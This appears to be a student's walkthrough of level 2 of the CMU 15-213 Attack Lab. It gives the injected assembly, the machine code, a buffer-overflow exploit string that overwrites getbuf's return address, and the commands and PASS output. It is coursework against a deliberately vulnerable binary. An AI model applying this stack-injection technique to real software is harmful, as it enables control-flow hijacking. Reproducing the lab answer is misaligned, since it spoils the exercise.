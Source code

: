 1. This is called ***Return-Oriented Programming (ROP)***, we need a code to let the original program to return to the wrong address so that we can do what we want.
2. Write a program that puts the cookie value in the`%rdi`register, pushes the address of`touch2`onto the stack (`%rsp`), and uses`ret`. The`ret`instruction will pop the top value from the stack into the instruction pointer, and do `sub $0x8, %rsp` effectively jumping to`touch2`. Here's the assembly code:

```nasm
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

1. use `*gcc -c touch2code.s*` and `*objdump -d touch2code.o > touch2code.d`* to find the machine code

```nasm
touch2code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

1. **To execute this code, we need to inject it into the buffer allocated by getbuf and modify the return address to point to the beginning of our injected code on the stack.(!!!!very difficult to understand, but very important!)**
2. Now we need to find the stack top of getbuf by using the gdb tool `run -q -i answer1.txt` and we can find the `%rsp` is `0x5561dc78`
3. so we need to put the return address of getbuf with `0x5561dc78` and put the touch2code in the getbuf input. so the result should be:

```nasm
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

1. use `./hex2raw < exploit2.txt > answer2.txt`
2. use `./ctarget -i answer2.txt -q` to execute the program.
3. show the pass message

```nasm
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

